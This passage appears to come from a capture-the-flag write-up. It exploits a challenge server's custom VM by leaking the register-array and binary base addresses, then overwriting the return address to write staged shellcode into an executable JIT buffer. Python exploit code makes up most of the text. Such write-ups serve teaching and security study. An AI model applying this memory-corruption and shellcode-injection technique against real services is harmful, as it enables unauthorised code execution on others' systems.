 So let's compute the address of the `register` array and, while we're at it, let's
also read the saved return address to compute the base address of our binary:

{% highlight python %}
register_base = read_relative(24) - 192
print "[*] register base =", hex(register_base)
exe_base = read_relative(26) - 0x1efd
print "[*] exe base =", hex(exe_base)
{% endhighlight %}

Now we can calculate the offset of arbitrary addresses, relative to `registers`:

{% highlight python %}
def calc_abs(addr):
    assert (addr - register_base) % 4 == 0
    return ((addr - register_base) / 4) % (2**64)
{% endhighlight %}

At this point we thank the authors of the challenge for this nice gimmick:

{% highlight cpp %}
void * JIT;     // TODO: add code to JIT functions
int handleConnection(int sockfd)
{
    void * value = 0;
    JIT = mmap(0, 4096, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    // [...]
{% endhighlight %}

This buffer is where we want to store our shellcode. To do that, we read
the value of the pointer `JIT`, which is located in the `.bss` segment of the binary.
We then use a sequence of `OP_MOV`s to overwrite the buffer and the return address:

{% highlight python %}
jit_ptr = 0x20f5c0
buf = read_relative(calc_abs(exe_base + jit_ptr))
print "[*] jit buffer =", hex(buf)

assert len(stage1) == 28
operations = [
    # overwrite ret addr
    createOperation(OP_MOV, 26, 0, 0),
    createOperation(OP_MOV, 27, 1, 0)
]
# write shellcode
for i in xrange(7):
    operations.append(createOperation(OP_MOV, calc_abs(buf+4*i), 2+i, 0))
operations += [
    createOperation(OP_EXIT, 0, 0, 0),
]

addFunction(sockfd, createFunction(len(operations), 0, "".join(operations)))
args = [buf&0xffffffff, buf>>32] + list(struct.unpack("IIIIIII", stage1))
runFunction(sockfd, 0, args, wait=0)
{% endhighlight %}
